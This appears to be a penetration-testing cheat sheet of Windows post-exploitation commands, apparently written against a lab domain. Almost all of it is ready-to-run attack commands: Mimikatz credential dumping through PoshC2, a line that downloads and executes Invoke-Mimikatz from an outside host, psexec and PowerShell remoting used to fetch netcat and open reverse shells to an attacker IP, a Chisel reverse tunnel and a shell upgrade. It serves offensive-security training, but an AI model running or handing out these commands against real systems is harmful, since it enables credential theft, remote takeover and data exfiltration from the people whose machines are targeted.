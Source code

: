 ## Tool: PoshC2

### Dumping credentials from a Windows machine

#### Using mimikatz module
- ```mimikatz Command "privilege::debug sekurlsa::logonPasswords"```
- ```mimikatz SamDump```

#### Using safetykatz module
- ```safetykatz full```

#### Using external Invoke-Mimikatz module
- ```sharpps IEX (IWR 'http://hackerdoma.in/Invoke-Mimikatz.ps1' -UseBasicParsing)```
- ```sharpps Invoke-Mimikatz -DumpCreds```
- ```sharpps Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"```

#### Using in-built Invoke-Mimikatz module
- ```pslo Invoke-Mimikatz.ps1```
- ```sharpps Invoke-Mimikatz -DumpCreds```
- ```sharpps Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"```

## Tool: Psexec.exe

To launch a command prompt on a remote machine (using password)

- ``` .\psexec.exe -accepteula -s \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password cmd.exe ```

To download nc64.exe on a remote machine (using password)

- ``` C:\Users\Public\psexec.exe -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password  powershell.exe -executionpolicy bypass -c wget http://192.168.14.10/nc64.exe -o C:\Users\Public\nc64.exe; ```

To get a reverse shell (using password) (requires nc64.exe to be downloaded on the target machine)

- PowerShell 1: ``` .\psexec.exe -s -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p qNkr96DvM03s58ckId8Bi867iuLp4BUNKbOTjFuHMrDu5AtI cmd.exe /c C:\users\Public\nc64.exe 191.168.14.10 8080 -e "powershell.exe -Executionpolicy bypass" ```

- PowerShell 2: ``` C:\Users\Public\psexec.exe -s -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password  powershell.exe -executionpolicy bypass -c C:\Users\Public\nc64.exe 192.168.14.10 8008 -e powershell.exe ```

- Cmd: ``` .\psexec.exe -accepteula \\ws01 -u ws01\Administrator -p password cmd.exe /c C:\users\Public\nc64.exe 192.168.14.10 8080 -e cmd.exe```

## Tool: PSRemote

To download nc64.exe on a remote machine and obtain a reverse shell (using PSCredential object)

```powershell
[string]$userName = 'yaksas'
[string]$userPassword = 'password'

# Convert to SecureString
[securestring]$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
[pscredential]$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)

Invoke-Command -Scriptblock {wget http://192.168.14.10/nc64.exe -o C:\Users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8081 -e powershell.exe} -computername ws01 -credential $credOjbect
```

## Tool: Chisel

To forward local port 80 

```Start-job -name "chisel" -ScriptBlock {C:\Users\yks\appdata\chisel.exe client 192.168.14.10:8080 R:8008:127.0.0.1:80}```

## Convert to full shell

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

## Start a python3 web server

```python3 -m http.server ```
